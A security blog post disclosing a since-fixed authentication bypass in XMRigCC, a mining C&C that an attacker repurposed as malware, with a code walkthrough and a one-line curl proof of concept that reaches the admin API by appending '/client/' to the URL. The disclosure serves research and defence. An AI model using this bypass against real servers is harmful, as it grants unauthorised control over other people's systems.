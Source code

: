 ```yaml
---
layout: post
title: "Pwning a miner's C&C"
author: "RoP Team"
description: "A vulnerability in XMRigCC allows to takeover the mining cluster"
keywords: "mineria, monero, xmrigcc, botnet"
date: 2020-02-17 00:00:00 -0500
categories: vulnerability
lang: en
lang-ref: pwning-a-miners-cc
---
```


The vulnerability that we are disclosing here has been fixed some months before this post. We could not report it timely, but we are happy to finally share this story.

Long time ago, while I was doing a malware analysis on a customer computer, I found a weird Monero miner. This miner had its configuration on a JSON file in plain text without any obfuscation. That is very unusual on a malware, so I decided to investigate a little more.

<!--more-->

The configuration file contains some lines like the following:

```json
"cc-client": {
    "enabled" : true,
    "url": "localhost:3344",
    "use-tls" : false,
    "access-token": "mySecret",
    "worker-id": null,
    "update-interval-s": 10,
    "use-remote-logging" : true,
    "upload-config-on-start" : true
}
```

After googling a couple of keywords from the JSON file, I found the Github repository of [XMRigCC][1]. It's a XMRig fork that includes a web application for remote control and monitoring the miners. XMRigCC was not designed as malware but the attacker has used it as such. And when someone uses software for something that has not been designed for, it's time for vulnerability hunting.

## General overview

XMRigCC is a client-server application and is composed by two binaries: xmrigServer and xmrigDaemon. xmrigDaemon is the mining software itself, it runs on the miner machine and connects to the server to receive instructions and send its status. In other hand, xmrigServer is a HTTP server for command and control. This server have two endpoints: the first one is a web admin panel with the functionality for bots management and monitoring and the second one is a JSON API for bots communication. These endpoints have distinct authentication methods. The admin panel uses Basic Authentication and requires to known a preconfigured username and password. The JSON API uses Bearer Authentication and requires to known a secret token. Obviously the secret token must be the same in client and server configuration files.

## Code analysis

As stated above, today the vulnerability is fixed but you can find the vulnerable source code [here][2].

At the file `src/cc/Service.cpp` we can find the methods `Service::handleGET` and `Service::handlePOST`. Basically these methods compare the requested path with specific paths by using the method `rfind`. If the requested path starts with a specific path, certain method is called to handle the request. Note that the paths don't need to be equal. The specific path only must be included at the beginning of requested path. Then we could append anything to the end of requested path and the handler method will be called anyway.

```csharp
unsigned Service::handleGET(const Options* options, const std::string& url, const std::string& clientIp, const std::string& clientId, std::string& resp)
{

// [...]

	if (url == "/") {
		resultCode = getAdminPage(options, resp);
	} else if (url.rfind("/admin/getClientStatusList", 0) == 0) {
		resultCode = getClientStatusList(resp);
	} else if (url.rfind("/admin/getClientConfigTemplates", 0) == 0) {
		resultCode = getClientConfigTemplates(options, resp);
	} else {

// [...]
```

Now, let's take a look the file `src/cc/Httpd.cpp`. We can find the methods `Httpd::tokenAuth` and `Httpd::basicAuth` which implement the authentication mechanisms for the API and admin panel respectively. But, the most interesting code is at `Httpd::handler` method. This method is the responsible to apply the appropriate authentication mechanism. When the string `/client/` is found into the URL, it means the API is being accessed, then the method `tokenAuth` is called. In any other case the called method is `basicAuth`.

Note that, since the `strstr` function returns a pointer to the first occurrence of the searched string, the string `/client/` could be in any position of the URL. Only when the `/client/` string is not present, `strstr` will return NULL and the condition will be false.

```csharp
int Httpd::handler(void* httpd, MHD_Connection* connection, const char* url, const char* method, const char* version, const char* upload_data, size_t* upload_data_size, void** con_cls)
{

// [...]

    if (strstr(url, "/client/")) {
        unsigned status = static_cast<Httpd*>(httpd)->tokenAuth(connection, clientIp);
        if (status != MHD_HTTP_OK) {
            return sendResponse(connection, status, nullptr, CONTENT_TYPE_JSON);
        }
    } else {
        std::string resp;
        unsigned status = static_cast<Httpd*>(httpd)->basicAuth(connection, clientIp, resp);
        if (status != MHD_HTTP_OK) {
            MHD_Response* rsp = nullptr;
            if (!resp.empty()) {
                rsp = MHD_create_response_from_buffer(resp.length(), (void*)resp.c_str(), MHD_RESPMEM_MUST_COPY);
            }
            return sendResponse(connection, status, rsp, CONTENT_TYPE_HTML);
        }
    }

// [...]
```

## The vulnerability

At this point, maybe you've already noticed what is the problem. We can avoid the Basic Auth method (user/password based) to access the admin panel functionality by including the string `/client/` at the end of the URL. In this way, the applied authentication method will be Bearer Auth (token based) and the secret token is known if you are a client (victim) in the mining botnet.

In short, we have a privilege escalation vulnerability to pass from victim machine to botnet master and are very thirsty for revenge }:D

## Proof of Concept

The following command allows to list the clients (victims) connected to XMRigCC. You must replace the secret token and the hostname with the proper ones.

```shell
curl -H 'Authorization: Bearer SECRET' 'http://BOTNET:3344/admin/getClientStatusList/client/'
```

Finally, this video shows how we can exploit the vulnerability to replace the monero wallet address in the clients configuration.

<iframe width="560" height="315" src="https://www.youtube.com/embed/Ol3s-5svYbM" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

Sorry Naruto*, your kung fu is weak ;)

Thanks for reading!

(*) I use this alias for the attacker because he has used it as password.

[1]: https://github.com/Bendr0id/xmrigCC
[2]: https://github.com/Bendr0id/xmrigCC/tree/2.0.0
